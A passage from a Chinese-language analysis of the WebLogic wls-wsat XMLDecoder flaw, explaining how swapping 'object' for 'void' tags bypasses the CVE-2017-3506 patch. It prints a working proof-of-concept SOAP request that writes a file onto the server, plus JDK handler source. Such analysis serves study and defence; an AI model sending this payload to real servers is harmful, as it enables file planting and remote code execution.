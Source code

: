 这个补丁主要是在`WorkContextXmlInputAdapter`构造函数里面增加了一个验证的代码，验证的逻辑也非常简单：使用SAX解析XML，只要发现有标签是`object`直接异常退出。

这个补丁针对之前3506的PoC是有效的，但是后来有人发现了新的XML书写方法，可以绕过这个补丁。

### 2. PoC

Post URL: http://172.16.100.97:7001/wls-wsat/CoordinatorPortType

Post Body:

```xml
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    	<soapenv:Header>
            <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
                <java version="1.6.0" class="java.beans.XMLDecoder">
                    <void class="java.io.PrintWriter">
                        <string>servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/test.txt</string><void method="println">
                        <string>xmldecoder_vul_test444</string></void><void method="close"/>
                    </void>
                </java>
            </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
    </soapenv:Envelope>
```
​																							*信息 2*

可以看到这个PoC和CVE-2017-3506的唯一区别就是，将`object`标签换成了`void`。

翻一下JDK里面关于`object`标签和`void`标签的区别：

`com/sun/beans/decoder/VoidElementHandler.java`

```Java
final class VoidElementHandler extends ObjectElementHandler {

    /**
     * Tests whether the value of this element can be used
     * as an argument of the element that contained in this one.
     *
     * @return {@code true} if the value of this element should be used
     *         as an argument of the element that contained in this one,
     *         {@code false} otherwise
     */
    @Override
    protected boolean isArgument() {
        return false; // hack for compatibility
    }
}
```

​																				*信息 3*

可以看到`void`标签的处理方法就是继承自`object`标签，所以才会有相同的效果。

### 
